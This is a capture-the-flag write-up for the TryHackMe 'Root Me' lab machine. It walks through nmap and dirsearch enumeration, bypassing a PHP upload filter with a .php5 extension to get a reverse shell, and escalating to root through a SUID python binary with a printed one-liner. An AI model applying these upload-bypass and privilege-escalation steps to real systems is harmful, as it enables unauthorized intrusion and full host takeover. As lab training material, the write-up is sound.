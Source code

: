 ```yaml
---
title: "THM - Root Me"
author: NiBi
lang: "en"
categories : ['Try Hack Me']
tags : ['CTF', 'THM','easy','SUID','python']
titlepage: true
toc: true
toc-own-page: true
---
```


# Nmap

```shell
└─$ nmap -A 10.10.103.188 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-05 15:21 EDT
Nmap scan report for 10.10.103.188
Host is up (0.032s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 363.73 seconds
```
# Enumeration
The index page shows the text “Can you root me ?”

I run dirsearch to find hidden directories

```shell
└─$ dirsearch -u http://10.10.103.188/
jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/kali/.dirsearch/reports/10.10.103.188/-_22-06-05_15-30-52.txt

Error Log: /home/kali/.dirsearch/logs/errors-22-06-05_15-30-52.log

Target: http://10.10.103.188/

[15:30:52] Starting: 
[15:30:55] 301 -  311B  - /js  ->  http://10.10.103.188/js/                                                
[15:31:19] 301 -  312B  - /css  ->  http://10.10.103.188/css/               
[15:31:34] 301 -  314B  - /panel  ->  http://10.10.103.188/panel/           
[15:31:50] 301 -  316B  - /uploads  ->  http://10.10.103.188/uploads/       
                                                                             
Task Completed
```
 
Interesting ! We got an uploads directory and a /panel
 
On the /panel we can upload files, i tried to upload a text file and it's worked.
All uploaded files are available in /uploads/
 
Let's try to upload a php file.

 
Have been to [revshells](https://www.revshells.com) to gen a php reverse shell
 
 
I have a message in Portuguese “PHP não é permitido!” 
So we can't upload PHP files.
 
Let's try to bypass this security

First of all, we can try to replace the extension with PHP5. If the server simply checks the file extension and blocks the sending if it's a PHP file then with PHP5 as extension it might allow it. Let's test this


BINGO ! 
The file was upload ! 

Let's start the pwncat listener : 
```shell
─$ pwncat-cs  -lp 4444 
```

Go to upload/shell.php5

Andddd perfect ! We have now a reverse shell 

# Privilege escalation

checking /home/ we see that we have two users :\
-rootme\
-test

In rootme's directory we have .sudo_as_admin_successful so hijack rootme's account might be interesting

We have user.txt /var/www/user.txt

```shell
(remote)www-data@rootme:/tmp$cat  /var/www/user.txt
[redacted]
```

On /html/ we have Website.zip 

I downloaded it.

There's nothing special inside

We have to check 4 things for privilege escalation: 

-sudo -l (impossible because we do not have www-data's password) \
-Crontab (Nothing here) \
-Write access (All is fine)\
-SUID (Go !)

Who's there in the SUID ?

```shell
(remote) www-data@rootme:/var$ find / -perm /4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

Is there a strange program ? Of course, yes ! Python is a SUID file !

If we start a shell with python , the shell will be started as root.

Perfect !

Going to [GTFOBIN](https://gtfobins.github.io/) we see how to use SUID to get root with python
Simply copy&paste this command :

```shell
(remote) www-data@rootme:/tmp$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
(remote)root@rootme:/tmp$ whoami
root
(remote)root@rootme:/tmp$
```
Voila, we are root

```shell
(remote)root@rootme:/tmp$ cat /root/root.txt
[redacted]
```

